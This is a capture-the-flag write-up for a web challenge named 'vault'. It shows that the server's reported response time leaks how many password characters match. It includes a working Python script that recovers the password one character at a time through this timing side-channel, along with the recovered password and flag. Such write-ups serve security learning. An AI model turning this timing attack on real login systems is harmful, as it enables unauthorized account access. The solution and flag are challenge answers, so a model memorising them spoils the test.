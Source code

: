 # vault

```
We've employed state-of-the-art brute-force prevention, hopefully there won't be any side-effects.

Note: reasonable brute-forcing is allowed for this challenge. You shouldn't need to make more than 1000 requests in total, and please don't send more than 25 requests per second.
vault.secso.cc 
```

Visit the website and try a random password. Response contains:

```
Incorrect password. Try again.

Response time: 0.00 ms
```

So it is possible that the response time is related to the length of the matching prefix. After some tests, every correct character in prefix contributes to 100ms in the time.

Attack script:

```python
import requests
import string
import urllib.parse

password = ""
last = 0

for index in range(40):
    done = False
    for i in string.printable:
        url = "https://vault.secso.cc/?" + urllib.parse.urlencode(
            {"password": password + i}
        )
        r = requests.get(url)
        for line in r.text.splitlines():
            if "Response time" in line:
                time = float(line.strip().split()[2])
                print(password + i, time)
                if time > last + 100:
                    last += 100
                    password += i
                    done = True
                    break
        if done:
            break
```

Correct password: `H8iObjIcSr`.

Flag: `K17{aLL_iN_go0d_t1m3}`.
